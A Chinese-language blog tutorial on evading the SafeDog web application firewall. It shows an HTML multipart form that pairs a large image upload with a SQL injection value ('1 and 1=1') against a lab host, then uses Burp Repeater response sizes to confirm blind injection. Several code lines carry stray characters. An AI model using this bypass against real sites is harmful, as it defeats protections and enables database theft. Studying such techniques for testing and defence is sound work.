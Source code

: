 当我们在渗透一个网站的时候，很多时候，会遇到下面这种情况。网站装有WAF，把我们的[SQL注入](https://so.csdn.net/so/search?q=SQL%E6%B3%A8%E5%85%A5&spm=1001.2101.3001.7020)语句给拦截了。

![](https://img-blog.csdnimg.cn/20181207153651259.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

这就是网站的安全狗

![](https://img-blog.csdnimg.cn/2018120715584270.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

此时，我们的渗透会陷入僵局。到底应该如何才能让我们的语句绕过安全狗的检查呢？

我们可以自己写一个页面，该页面可以向网站提交数据，我们在提交数据的同时还提交一张图片，由于图片的数据过大，超过了安全狗的正则匹配的字符，我们就可以绕过了

```
<!DOCTYPE html>      
<html>      
<head lang="en">      
    <meta charset="UTF-8">      
    <title></title>      
</head>      
<body>      
   <form action="http://192.168.10.14/cat.php?id=1" method="POST" enctype="multipart/form-data">      
       File: <input type="file" name="file"/> <br/>      1
       ID: <input type="text" name="id" value="1 and 1=1" style="width=400px;"/> <br/>      1
       <input type="submit" value="提交"/>      1
   </form>      1
</body>      1
</html>
```


我们随便选择本地一张照片和我们的SQL语句一起提交

![](https://img-blog.csdnimg.cn/20181207161459521.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后用BrupSuite抓包，送到Repeater模块，拉到请求数据的最后，点击发送。我们可以看到，当发送的数据是 1 and 1=1的时候，回复的字节数是 2649个字节

![](https://img-blog.csdnimg.cn/20181207162154590.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

 然后我们修改为  1  and  1=2 ,字节数是2130个字节，很明显，这里存在盲注。而且我们已经绕过安全狗的检测了。![](https://img-blog.csdnimg.cn/2018120716252075.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)